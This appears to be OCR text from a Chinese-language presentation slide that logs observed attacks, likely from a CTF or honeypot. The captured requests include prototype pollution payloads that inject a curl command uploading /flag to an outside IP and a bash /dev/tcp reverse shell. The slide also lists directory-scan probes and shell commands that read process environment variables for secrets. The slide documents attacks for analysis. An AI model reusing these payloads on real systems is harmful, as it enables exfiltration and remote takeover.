

原型链污染攻击
Apr 22, 21:51:07   POST
  ['id" = "__proto__.bb"', 'author" = "curl -F \'flag=@/flag\' 99.999.9.35:50061“’, …]
…
Apr 24, 21:49:08   POST
  ['id" = "__proto__"', 'author" = "bash -i>& /dev/tcp/99.999.9.35/9000 0>&1“’, …]

目录扫描爆破
Apr 22, 20:31:53
GET  /!.htpasswd
Apr 22, 21:37:27
GET  /~system
…
Apr 22, 20:31:53
GET  /php.htaccess
Apr 22, 21:37:27
GET  /~user

反弹shell
Apr 24, 21:55:46
TCP  cd /proc/1
…
Apr 24, 21:56:06
TCP  cat environ
Apr 24, 20:59:15
TCP  grep -rn "flag="
Apr 24, 21:18:03 TCP  grep -rn FLAG=